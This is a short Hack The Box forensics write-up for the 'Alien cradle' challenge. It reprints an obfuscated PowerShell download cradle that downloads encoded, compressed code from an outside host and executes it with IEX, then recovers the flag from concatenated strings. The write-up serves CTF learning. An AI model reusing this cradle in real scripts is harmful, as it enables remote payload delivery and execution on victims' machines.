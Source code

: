 ```yaml
---
title: Alien cradle
date: 2025-01-31
author: Flavien
draft: false
tags:
  - CTF
  - HTB
  - Challenge
  - Veasy
  - Forensics
  - short
categories:
  - Writeup
  - Challenge
  - Forensics
description: HTB writeup for the very easy forensics challenge "Alien cradle"
summary: A concise walkthrough of the very easy Hack The Box challenge "Alien cradle".
---
```

```
In an attempt for the aliens to find more information about the relic, they launched an attack targeting Pandora's close friends and partners that may know any secret information about it. During a recent incident believed to be operated by them, Pandora located a weird PowerShell script from the event logs, otherwise called PowerShell cradle. These scripts are usually used to download and execute the next stage of the attack. However, it seems obfuscated, and Pandora cannot understand it. Can you help her deobfuscate it?
```

==> We get a `PowerShell`script from the source of the challenge, we can try to view it:

```powershell
if([System.Security.Principal.WindowsIdentity]::GetCurrent().Name -ne 'secret_HQ\Arth'){exit};$w = New-Object net.webclient;$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;$d = $w.DownloadString('http://windowsliveupdater.com/updates/33' + '96f3bf5a605cc4' + '1bd0d6e229148' + '2a5/2_34122.gzip.b64');$s = New-Object IO.MemoryStream(,[Convert]::FromBase64String($d));$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}';IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

and we see that it seems obfuscated. However, we can still seem to see the flag in clear text by combining the strings in:

```powershell
$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}'
```

==> This then gives us the flag:

==> **`HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}`**